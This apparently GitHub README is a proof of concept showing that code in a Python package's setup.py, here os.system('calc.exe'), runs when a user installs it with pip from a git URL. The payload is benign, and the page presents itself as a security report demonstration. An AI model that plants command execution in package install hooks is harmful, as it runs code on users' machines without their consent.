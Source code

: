 ## RCE Via PIP

```a package-management system written in Python and is used to install and manage software packages```

This code in setup.py

```
import os
os.system("calc.exe")
```
Is used to open Calculator app , When users intall the pacakge with 

```
pip install git+https://github.com/slvignesh05/RCE-PIP.git
```

The Malicious codes pushed in the repo by attacker will be executed!.
Proof of Concept for a security report


